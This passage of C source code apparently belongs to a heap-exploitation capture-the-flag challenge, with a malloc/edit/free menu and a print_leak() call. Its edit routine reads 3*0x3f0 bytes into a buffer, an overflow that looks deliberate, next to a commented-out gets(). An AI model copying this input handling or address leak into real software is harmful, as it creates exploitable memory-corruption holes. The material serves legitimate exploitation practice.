            printf("input data: ");
            read(0, buf, 3*0x3f0);
            // gets(buf);
        }
        else {
            printf("invalide index\n");
            printf(LINE);
        }
    }
    else{
        printf("invalide index\n");
        printf(LINE);
    }
}

void do_exit(void) {
    printf("exiting...\n");
    printf(LINE);
    exit(0);
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    printf(LINE);
    print_banner();
    print_leak();
    printf(LINE);

    int malloc_count = 0;
    print_option(malloc_count);
    unsigned long option_num;
    option_num = read_num();
    while (true) {
        switch (option_num) {
            case 1:
                do_malloc(&malloc_count);
                break;
            case 2:
                do_edit();
                break;
            case 3:
                do_free();
                break;
            case 4:
                do_exit();
                break;
        }   
        print_option(malloc_count); 
        option_num = read_num();
        printf(LINE);
    }
    return 0;
}

```

